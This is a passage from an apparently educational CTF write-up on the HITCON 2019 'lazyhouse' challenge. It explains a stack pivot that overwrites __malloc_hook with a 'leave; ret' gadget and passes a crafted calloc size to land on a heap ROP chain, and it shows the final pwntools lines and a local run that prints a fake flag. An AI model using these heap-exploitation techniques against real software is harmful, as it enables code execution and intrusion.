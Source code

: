 ```c
jnz     loc_99CD0

loc_99CD0:
mov     rsi, [rsp+28h]
mov     rdi, rbp
call    rax
```

Note that in our case, `buy_house` will call `calloc(1, size)`, meaning `rdi` will be 1, and `rsi` will be whatever size we enter.

At **[1]**, we see a `mov rbp, rdi` instruction, which will set `rbp` to 1. At **[2]**, we see a `imul rbp, rsi` instruction, which will multiply `rbp`(1) by `rsi`(size that we control) and store the result into `rbp`. Later on, at the `call rax` instruction, `rbp` will still be equal to `size * 1`.

Now, remember that we overwrote `__malloc_hook` with the address to a `leave; ret` gadget. The `leave` instruction is equivalent to `mov rsp, rbp; pop rbp`. Remember that our ROP chain is at `heapbase+0xa88`. If we ensure that the size we pass to `calloc` is equal to `heapbase+0xa80`, what is going to happen is that `rsp` will be set to `heapbase+0xa80` when the `mov rsp, rbp` instruction happens, and then the `pop rbp` instruction will move `rsp` to `heapbase+0xa88`. The following `ret` instruction will return into whatever address is at `rsp`, which will be the address stored at `heapbase+0xa88`.

Since our ROP chain starts at `heapbase+0xa88`, we will have successfully pivoted the stack to `heapbase+0xa88` and returned into our ROP chain. It is absolutely mind blowing, I've never seen anyone use this technique before, and it is amazing to see **Balsn** do this during the CTF.

After overwriting `__malloc_hook` with a `leave; ret` gadget, simply attempt to buy a house with a size of `heapbase+0xa80` to pivot the stack and return into the ROP chain that has already been stored on the heap:
```python
# rbp is set to rsi before __malloc_hook is called in calloc
# Therefore we pass heap+0xa80 as an argument, as our ROP chain starts at
# heap+0xa88
buy(4, heap+0xa80, 'A')

p.interactive()
```

I created a fake flag by doing `echo -n hitconctf{congrats} > /home/vagrant/flag` and ran the exploit:
```sh
vagrant@ubuntu1904:/ctf/CTF-archive/hitcon-2019/lazyhouse$ ./exploit.py 
[*] '/ctf/CTF-archive/hitcon-2019/lazyhouse/lazyhouse'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[*] '/ctf/CTF-archive/hitcon-2019/lazyhouse/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
LOCAL PROCESS
[+] Starting local process './lazyhouse': pid 3853
[*] Libc base: 0x7ff02a349000
[*] Heap base: 0x559a1966b000
[*] Switching to interactive mode
Price:5415557892635423262
hitconctf{congrats}\x00\x00\x00\x00\x00\x00\x00\x00
```
